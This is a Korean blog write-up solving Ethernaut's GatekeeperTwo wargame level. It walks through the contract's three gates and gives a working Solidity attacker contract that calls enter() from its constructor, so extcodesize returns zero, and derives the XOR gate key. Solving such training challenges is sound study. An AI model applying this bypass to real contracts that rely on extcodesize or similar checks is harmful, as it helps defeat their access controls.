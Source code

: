 ```yaml
---
emoji: 🧢
title: (Ethernaut 취약점 14) GatekeeperTwo
date: '2022-01-21 10:57:00'
author: 한성원
tags: ethernaut GatekeeperTwo vulnerability
categories: 취약점분석
---
```



# 👋 Privacy
__Difficulty 6/10__

- 승리 조건
- 코드 분석
- 풀이
순서로 진행 될 것이다.

- - -

## 승리 조건
- Gatekeeper을 지나 entrant로 등록하기
- GatekeeperOne과 같다.

- - -

## 코드 분석
분석은 주석에!
더 자세한 설명은 코드 뒤에 나온다.

```solidity
contract GatekeeperTwo {

    address public entrant;

    // GatekeeperOne와 똑같은 gateOne
    // tx.origin과 msg.sender가 다르게하라!
    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    // gateTwo
    modifier gateTwo() {
        uint x;
        // extcodessize(caller())를 x에 저장
        assembly { x := extcodesize(caller()) }
        // x가 0과 같으면 진행
        require(x == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        // A xor B == C 이게 하라! (^ = XOR)
        require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == uint64(0) - 1);
        _;
    }

    // modifier를 다 통과하면 tx.origin이 entrant가 될 수 있다!
    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```
- - -


## 풀이
이 문제에서 우리의 목표는 etrant 를 얻는 것이다.

시작하기 전 Ethernaut에서 주는 힌트를 보고가자

- 첫번째 gate는 gatekeeperOne과 같다. gatekeeperOne의 gateOne을 기억해보자
- ```assembly``` 키워드는 Solidity의 vanilla Solidity에 있지않은 기능등에 접근할 수 있게 해준다. ```extcodesize```는 주어진 주소의 contract의 크기를 가져온다. 이더리움 Yellow Paper 7번 섹션에서 더 자세히 배울 수 있다.
- ```^```는 bitwise operation이며 XOR을 뜻한다. Coin Flip을 참조하며 이번 레벨을 시작해도 좋을 것이다.

우리는 entrant를 얻기 위해 3개의 modifier의 require문을 모두 만족시켜야 한다. 

첫번째로 gateOne은 msg.sender와 tx.origin을 다르게 만들면 통과할 수 있다. 이는 다른 contract를 만들어 call하면 통과할 수 있다. gateOne은 [지난 문제](https://holyhansss.github.io/ethernaut/13_gatekeeperOne_ethernaut/13_gatekepperOne_1_ethernaut/)에서 풀었고, [Telephone](https://holyhansss.github.io/ethernaut/4_telephone_ethernaut/4_telephone_ethernaut/)문제에도 나와있음으로 풀 수 있을 것이라고 생각하고 gateTwo로 넘어가도록 하겠다.

두번째로 gateTwo는 ```assembly```와 ```extcodesize```에 대해서 이해해야한다. 

우선 ```assembly```는 low level 연산을 수행 할 수 있도록 도와준다. 또한 힌트에서 알 수 있듯이 vanilla Solidity에 있지 않은 기능에 접근할 수 있게 해준다.  ```assembly```는 Uniswap V2 contract에서도 본적있다. 그렇기 때문에 contract를 분석하기 위해서는 ```assembly```에 대해 아는 것이 필수이다. 

그렇다면 ```extcodesize```는 무엇일까?
`extcodesize`는  주어진 주소의 contract의 크기를 반환한다. 그렇다면 우리가 entrant를 얻기위해 만드는 contract는 크기가 0이 될 수 있나?? 

있다! `extcodesize`는 contract initialization 단계에서는 0을 반환한다. contract creation이 완료되어야 코드가 저장되기 때문이다.
즉 constructor안에 코드를 넣는다면 extcodesize는 0을 반환 할 것이고 gateTwo를 통과할 수 있게된다.

[ethereum yellow paper](https://ethereum.github.io/yellowpaper/paper.pdf)는 이더리움의 기술 백서이다. 기술 백서의 7번(CONTRACT CREATION) section을 보면 extcodesize에 대한 자세히 알 수 있다고 한다. 나는 읽어보고 더 확실한 이해를 위해 구글에 검색했다!

<br/>
마지막으로 gateThree다. gateThree를 통과하기 위해서는 비트 연산자에 대한 개념이 필요하다. 다행히 나는 학교수업에서 배운 적 있어 이해하는데, 큰 어려움은 없었다.

비트연산자에 대해서 먼저 설명해보겠다.  
 - `&`: and; `1010 & 1111 == 1010`
 - `|`: or; `1010 | 1111 == 1111`
 - `^`: xor; `1010 ^ 1111 == 0101`
 - `~`: not; `~1010 == 0101`

위 표는 [이 게시물](https://medium.com/coinmonks/ethernaut-lvl-14-gatekeeper-2-walkthrough-how-contracts-initialize-and-how-to-do-bitwise-ddac8ad4f0fd)을 참조했다.

XOR의 특성을 생각해보면 `A xor B = C` == `A xor C = B`라는 것을 알 수 있다. 우리는 우리의 _gateKey 계산을 위해 gatekeeperTwo contract의 gateThree의 require문 안에있는 수식가져와 위 xor의 특성처럼 대입할 수 있다. require문 안에는 다음과 같은 수식이 들어있다.

```solidity
uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == uint64(0) - 1
```
이를 xor의 특성을 적용해 바꾼다면 다음과 같아진다. 그럼 우린 이 코드를 넣어 _gateKey값을 구해 call을 보내면 된다.
```solidity
uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(0) - 1 == uint64(_gateKey)
```

getEtrant contract 코드를 함께 보자!
```solidity
contract GetEntrant {
    // gateTwo를 통과하기 위해 call을 constructor안에서 실행시켰다.
    constructor(address _gatekeeperTwo) public {
        // gateThree에 필요한 _gateKey를 위해 A^B=C를 A^C=B로 바꾸었다.
        // 바꿀때 key는 bytes8임으로 bytes8을 type conversion을 해주었다.
        bytes8 _key = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ uint64(0) - 1);
        // _key를 사용해 call을 보낸다. 
        _gatekeeperTwo.call(abi.encodeWithSignature('enter(bytes8)',_key));
    }
}

```
gatekeeperTwo contract의 주소를 넣어 GetEntrant를 deploy시키면 완료된다!

이후 Submit instance를 누르고 조금 기다리면 block이 mine되고, 아래와 같이 뜨며 마무리된다.
```
٩(- ̮̮̃-̃)۶ Well done, You have completed this level!!!
```

- - -

## 마무리
GateKeeperOne과 마찬가지로 새로운 개념을 많이 배울 수 있는 문제 같았다. 문제를 그냥 푼다기 보다는 문제를 풀며 내가 어떤 것을 배우는지, 그리고 정확하게 이해하며 배우는 것에 집중해야할 것 같다. `assembly` 같은 경우 다른 contract에서도 사용하는 것을 봤고, 이해가 안됐었다. 하지만 문제를 풀며 직접 찾아보고 이해하려고 했을때는 더 잘 이해가 된 것 같다ㅎㅎ 앞으로도 열심히 하자:)


- - -
## 기타 정보
- rinkeyb network ether faucet: https://faucets.chain.link/rinkeby
- ethernaut: https://ethernaut.openzeppelin.com/
- remix IDE: https://remix.ethereum.org
- 참고 자료: https://medium.com/coinmonks/ethernaut-lvl-14-gatekeeper-2-walkthrough-how-contracts-initialize-and-how-to-do-bitwise-ddac8ad4f0fd

```toc

```